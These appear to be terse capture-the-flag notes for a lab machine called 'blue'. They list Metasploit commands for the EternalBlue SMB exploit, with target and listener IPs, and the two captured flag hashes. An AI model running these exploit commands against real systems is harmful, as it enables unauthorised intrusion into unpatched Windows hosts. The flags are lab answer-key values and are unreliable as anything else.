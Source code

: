 # blue hmmm..... EternalBlue????
# lets try a smb exploit from metasploit


### [EXPLOIT]
  use windows/smb/ms17_010_eternalblue)
  set rhosts 10.10.10.40
  set lhost 10.10.14.19


### [Priv Esc]
  NONE: got in as admin


### [FLAGS]
  ff548eb71e920ff6c08843ce9df4e717 C:\users\administrator\desktop\root.txt
  4c546aea7dbee75cbd71de245c8deea9 C:\users\haris\desktop\user.txt
